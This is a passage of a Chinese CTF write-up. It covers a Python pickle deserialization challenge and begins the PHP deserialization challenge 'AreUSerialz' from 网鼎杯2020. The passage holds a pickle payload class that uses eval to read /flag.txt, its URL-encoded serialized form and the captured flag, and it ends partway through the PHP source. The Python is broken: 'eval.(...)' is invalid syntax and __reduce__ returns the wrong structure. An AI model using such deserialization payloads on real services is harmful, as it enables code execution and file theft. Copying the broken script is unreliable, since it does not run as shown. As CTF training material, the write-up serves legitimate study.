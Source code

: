 ```
['bin', 'dev', 'etc', 'home', 'lib', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', 'flag.txt', 'app', '.dockerenv']
```

发现根目录下有一个flag.txt

## 查看flag.txt

```
import pickle
import urllib
import os
class Payload(object):
	def __reduce__(self):
		return (eval.("open('/flag.txt','r').read()"))

if __name__ =='__main__':
	tmp = pickle.dumps(Payload())
	print(urllib.quote(tmp))
```

### 反序列化

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

## flag

```
flag{32acd1e8-8107-4c7c-928e-86faf25c49c1}
```

# [网鼎杯2020 青龙组]AreUSerialz

考点：PHP反序列化



```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
```